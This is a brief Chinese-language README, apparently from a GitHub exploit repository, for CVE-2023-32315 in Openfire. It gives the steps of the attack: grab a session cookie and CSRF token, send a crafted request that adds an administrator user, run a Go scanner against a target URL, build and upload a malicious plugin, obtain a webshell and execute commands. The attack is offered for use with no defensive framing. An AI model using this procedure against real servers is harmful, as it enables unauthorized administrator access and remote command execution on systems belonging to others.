



# CVE-2023-32315

0x01 获取返回的JSESSIONID和csrftoken ,构造请求包新增用户(替换JSESSIONID、csrftoken)

```
cd CVE-2023-32315-Openfire-Bypass/scan_all
go mod tidy
go run main.go -u http://openfire.com:9090
```
0x02 插件编译安装
```
mvn clean package
```
或
releases下载插件

0x03 上传插件


0x04 得到webshel

0x05 执行命令



